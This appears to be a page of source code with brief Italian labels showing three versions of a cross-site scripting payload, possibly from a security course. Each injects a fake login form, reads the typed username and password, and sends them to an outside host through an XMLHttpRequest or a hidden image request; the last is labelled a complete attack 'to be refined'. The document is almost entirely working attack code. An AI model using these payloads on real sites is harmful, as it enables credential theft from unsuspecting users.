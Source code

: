 






- versione con XMLHTTPRequest per effettuare richieste asincrone
NOTA: protezione Same Origin!






<script>function hack(){stringa="?username="+ document.forms[1].user.value + "&password=" + document.forms[1].pass.value + ""; evil_url="http://cris.unimo.it/fakeimage.img"+ stringa + ""; async_request= new XMLHTTPRequest(); async_request.open("GET",evil_url,"true"); async_request.send();alert(evil_url)} document.getElementsByName("XSS")[0].style.visibility="hidden";</script><form><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" id="user" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>







- versione con aggiunta di img al body







<script>function hack(){stringa="?username="+ document.forms[1].user.value + "&password=" + document.forms[1].pass.value + ""; evil_url="http://cris.unimo.it/fakeimage.img"+ stringa + ""; var evilimg=document.createElement('img'); evilimg.setAttribute("src",evil_url); document.body.appendChild(evilimg);} document.getElementsByName("XSS")[0].style.visibility="hidden";</script><form><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" id="user" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>







- attacco completo (da raffinare)







<script>function hack(){stringa="?username="+ document.forms[1].user.value + "&password=" + document.forms[1].pass.value + ""; evilurl="http://cris.unimo.it/fakeimage.img"+ stringa + ""; var evilimg=document.createElement('img'); evilimg.setAttribute("src", evilurl); evilimg.setAttribute("display","none"); document.body.appendChild(evilimg); document.getElementsByName("XSS")[0].style.visibility="visible"; injectedform=document.getElementById("injectedform"); injectedform.style.visibility="hidden";} document.getElementsByName("XSS")[0].style.visibility="hidden";</script>

<form id="injectedform"><br><br><HR><H3>This feature requires account login:</H3 ><br><br>Enter Username:<br><input type="text" id="user" name="user"><br>Enter Password:<br><input type="password" name = "pass"><br><input type="button" name="login" value="login" onclick="hack()"></form><br><br><HR>
